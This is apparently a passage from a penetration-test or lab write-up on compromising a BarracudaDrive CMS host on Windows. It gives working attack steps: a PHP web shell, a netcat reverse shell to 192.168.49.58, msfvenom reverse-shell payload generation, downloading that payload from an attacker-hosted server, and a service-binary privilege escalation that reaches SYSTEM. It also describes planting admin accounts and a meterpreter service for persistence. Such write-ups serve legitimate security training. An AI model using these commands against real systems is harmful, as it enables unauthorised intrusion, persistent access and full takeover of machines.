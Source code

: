 After accessing TCP port 44330 in the browser, I was prompted to set the admin password (as an anonymous user) for the BarracudaDrive CMS application. This allowed me to access the local file system, upload a PHP command shell, upload Netcat, and then execute both. I used the TCP port 45443 (the Quiz app) as inspiration for my LPORT. 

```php
cat cmd.php

# output
<?php echo shell_exec($_GET['cmd']);?>
```

```bash
cmd.php?cmd=powershell.exe -c "c:\xampp\htdocs\nc.exe 192.168.49.58 45443 -e 'cmd.exe'"
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. Victor added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.

### Privilege Escalation

#### EDB-ID-48789
```bash
# i used TCP port 44330 (the BarracudaDrive app) as inspiration for my LPORT.
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.58 LPORT=44330 -f exe -o bd.exe

# i used TCP port 33033 (the UserPro app) as inspiration for my LPORT.
sudo python3 -m http.server 33033
```

```bash
# target side, as Jerren, via the nc.exe exploit (that was provided via cmd.php). 
cd C:\bd
mv bd.exe bdsm.exe
powershell
iwr http://192.168.49.58:33033/bd.exe -outfile bd.exe
# then replace the Python web server on the attacker side with sudo nc -nvlp 33033
shutdown /r /t 0
```

```bash
sudo nc -nvlp 33033
whoami

# output
nt authority\system
```
